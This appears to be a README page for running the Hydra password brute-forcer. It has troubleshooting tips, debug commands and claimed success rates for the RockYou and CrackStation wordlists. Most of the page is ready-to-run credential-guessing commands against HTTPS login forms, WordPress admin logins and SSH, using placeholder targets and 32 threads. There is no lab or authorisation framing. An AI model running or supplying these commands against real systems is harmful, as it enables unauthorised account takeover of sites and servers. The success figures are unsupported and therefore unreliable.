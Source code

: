 ## 🔍 Troubleshooting

### Common Issues
1. **Help menu appears** - Check module name (`https-post-form` not `http-post-form`)
2. **Syntax error** - Put `-t` parameter at the beginning
3. **No results** - Check failure string in form parameters
4. **Rate limited** - Reduce threads and add delays

### Debug Commands
```bash
# Check module help
hydra -U https-post-form

# Debug mode
hydra -d -l username -P passwords.txt target.com https-post-form "/login:user=^USER^&pass=^PASS^:F=fail"

# Verbose output
hydra -v -l username -P passwords.txt target.com https-post-form "/login:user=^USER^&pass=^PASS^:F=fail"
```

## 📈 Success Metrics

### Typical Results
- **Targeted passwords**: 27 passwords → 1-5 valid
- **Comprehensive final**: 101K passwords → 10-50 valid
- **RockYou**: 14M passwords → 100-500 valid
- **CrackStation**: 1.2B passwords → 1000+ valid

### Expected Patterns
- Date-based passwords (birth years, etc.)
- Common words with numbers
- Keyboard patterns
- Simple sequences

## 🎯 Target-Specific Commands

### WordPress
```bash
hydra -t 32 -l admin -P comprehensive_final.txt target.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=Invalid username"
```

### SSH
```bash
hydra -t 32 -l username -P comprehensive_final.txt target.com ssh
```
